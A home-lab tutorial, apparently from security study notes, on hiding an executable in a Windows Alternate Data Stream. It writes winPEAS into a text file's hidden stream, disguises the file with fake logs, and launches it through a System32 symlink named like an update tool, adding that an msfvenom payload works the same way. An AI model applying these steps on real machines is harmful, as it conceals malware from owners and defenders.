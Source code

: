 # 🔬Alternate Data Stream

## Lab 1 (Extra)

> 🔬 **Home Lab**
>
> I will use a *Windows 10 Virtual Machine* for this demonstration

- Open a Command Prompt (`cmd`)

```bash
notepad text.txt
```

- Check the Resource Stream (metadata) of the file

![](windows-attacksassets/image-20230317182101971.png)



```bash
notepad test.txt:secret.txt
# secret.txt contains the Resource Stream

notepad test.txt
# normal Data Stream
```

![](windows-attacksassets/image-20230317182213196.png)

![](windows-attacksassets/image-20230317182338040.png)

`e.g.` - Download latest [winPEASx64_ofs.exe](https://github.com/carlospolop/PEASS-ng/releases/tag/20230312) (*Antivirus may block the file*), rename it to `payload.exe` and move it to `C:\Temp` directory

- Using the `type` command, redirect the output into a new legitimate text file, passing in the actual executable into the text file resource stream.

```bash
type payload.exe > windows_log.txt:winpeas.exe
del payload.exe
```

- `windows_log.txt` file can be filled with legitimate logs data to make it as realistic as possible
- Start the hidden executable

```bash
start windows_log.txt:winpeas.exe
```

![](windows-attacksassets/image-20230317183947118.png)

- Open an elevated `cmd` and create a symbolic link

```bash
cd C:\Windows\System32
mklink wupdate.exe C:\Temp\windows_log.txt:winpeas.exe
```

![](windows-attacksassets/image-20230317184205318.png)

- Run `wupdate.exe` to launch the `winpeas.exe` payload from the Resource stream of the windows_log.txt file

```bash
wupdate
```

> 📌 Same as above procedure can be done with a malicious `msfvenom` payload.

------

